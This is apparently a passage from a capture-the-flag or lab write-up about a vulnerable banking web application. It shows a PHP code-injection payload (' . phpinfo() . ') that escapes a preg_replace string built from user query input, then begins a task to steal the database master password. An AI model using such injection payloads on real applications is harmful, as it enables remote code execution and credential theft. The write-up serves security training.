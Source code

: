 preg\_replace function is in strings and input is part of the string, terminated using \`'\` and injected php code and opened \`'\` for the continueing string.

  

payload:

\`\`\`php

 ' . phpinfo() .'

\`\`\`

\> \`.\` is used to concatenate to the string.

  

that breaks the following query,

\`\`\`php

$replaceWith =  "preg\_replace('#\\b". str\_replace('\\\\',

 '\\\\\\\\', $http\['query'\]) ."\\b#i', '<span

 class=\\"queryHighlight\\">\\\\\\\\0</span>','\\\\0')";

\`\`\`

into,

  

\`\`\`php

$replaceWith = "preg\_replace('#\\b'. phpinfo() .'\\b#i', '\\\\0','\\0')";

\`\`\`

  

\`\`\`php

$replaceWith =''.phpinfo().''; 

\`\`\`

  

\- \*\*Result\*\*

!\[Code execution - phpinfo\](images/task2/phpinfo.PNG)

  
  
  
  
  
  

\_\_2. Disclose the master password for the database your bank application has access to. Indicate username, password and DB name as well as the IP address of the machine this database is running on.\_\_

\_\_solution\_\_ 

  

\- Find the current location of the application and files in it. 
